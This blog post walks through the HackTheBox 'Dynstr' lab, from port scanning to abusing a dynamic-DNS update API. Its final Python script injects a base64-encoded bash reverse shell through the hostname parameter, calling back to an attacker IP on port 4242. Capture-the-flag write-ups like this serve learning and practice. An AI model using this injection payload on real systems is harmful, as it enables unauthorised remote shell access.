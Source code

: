 ```yaml
---
layout: post
title:  "HackTheBox - Dynstr"
date:   2021-06-24 17:06:25
categories: Pentesting
---
```


Prompt: https://app.hackthebox.eu/machines/dynstr

# Solution

So first of all we run an nmap scan and get the open ports.

```
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
```
We visit port 80 in our browser and discover the following information:

![](/images/dynstr.png)

We referred to these web-pages (documentation was scarce):

[Remote Access API](https://help.dyn.com/remote-access-api/guidelines/)
[Dnsomatic docs](https://www.dnsomatic.com/docs/api)

However, when sending a valid request via browser,we always got the badauth error. So we tried to do it via a script:

```py
import requests, socket

username = ""
password = ""
hostname = "" # your domain name hosted in no-ip.com

# Gets the current public IP of the host machine.
#myip = requests.get('http://api.ipify.org').text

# Gets the existing dns ip pointing to the hostname.
#old_ip = socket.gethostbyname(hostname)

# Noip API - dynamic DNS update.
# https://www.noip.com/integrate/request.
def update_dns(username,password):
    r = requests.get(f"http://{username}:{password}@dyna.htb/nic/update")

    #if r.status_code != requests.codes.ok:
    print(r.content)
    #pass

# Update only when ip is different.
#if myip != old_ip:
    #update_dns(username, password )
#pass

update_dns("dynadns","sndanyd")
```

And we finally saw this message on running the script:

```
good 10.10.14.123
```
On further enumeration we saw that hostname parameter was had command injection so we tried to take advantage of it by sending a reverse shell in base64 and listening on another terminal with netcat. Here's our script for that:

```py
import requests, socket

username = "dynadns"
password = "sndanyd"

'''
    dnsalias.htb
    dynamicdns.htb
    no-ip.htb
'''
myip="10.10.14.124"
hostname = "aa.dnsalias.htb" # your domain name hosted in no-ip.com
ip="10.129.11.122"

# Gets the current public IP of the host machine.
#myip = requests.get('http://api.ipify.org').text

# Gets the existing dns ip pointing to the hostname.
#old_ip = socket.gethostbyname(hostname)

# Noip API - dynamic DNS update.
# https://www.noip.com/integrate/request.
def update_dns(username,password):
    r = requests.get(f"http://{username}:{password}@dyna.htb/nic/update?hostname=`echo YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjEyMy80MjQyIDwmMQ==| base64 -d | bash`\"{hostname}&my={ip}")

    #if r.status_code != requests.codes.ok:
    print(r.content.decode())
    #pass

# Update only when ip is different.
#if myip != old_ip:
    #update_dns(username, password )
#pass

update_dns(username,password)
```
And we get the reverse shell in our terminal !!
